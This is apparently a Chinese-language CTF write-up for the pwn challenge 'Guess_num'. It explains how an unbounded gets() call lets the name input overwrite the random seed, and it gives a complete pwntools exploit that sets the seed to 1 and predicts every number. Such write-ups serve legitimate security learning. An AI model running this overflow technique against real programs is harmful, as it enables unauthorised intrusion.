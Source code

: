 ```yaml
---
layout: post
title: Guess_num
categories: pwn
tags: [pwn]
description: 控制随机数
date: 2019-07-02
---
```

## Guess_num

题目不难，但是学到了个新姿势 **cdll.LoadLibrar** ，可以用它来加载dll或者libc。

### ida分析

![img](/assets/images/2019-7-2-Guess_num/guess_num_1.png)

名字v11和seed相差32(0x30-0x10)，而gets又没有限制，故可以将seed覆盖。

### Exp
```python
from pwn import *
from ctypes import *  
 
#p = remote('','')
p = process('./guess_num') 
elf = ELF('./guess_num')
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
 
payload = 'A'*32  
payload += p64(1)   #覆盖种子为1
p.recvuntil('name:')
p.sendline(payload)  
 
libc.srand(1)  #本地设置种子为一

for i in range(10):
        num = str(libc.rand()%6+1)
        p.recvuntil('number:')
        p.sendline(num)
 
p.interactive()

```
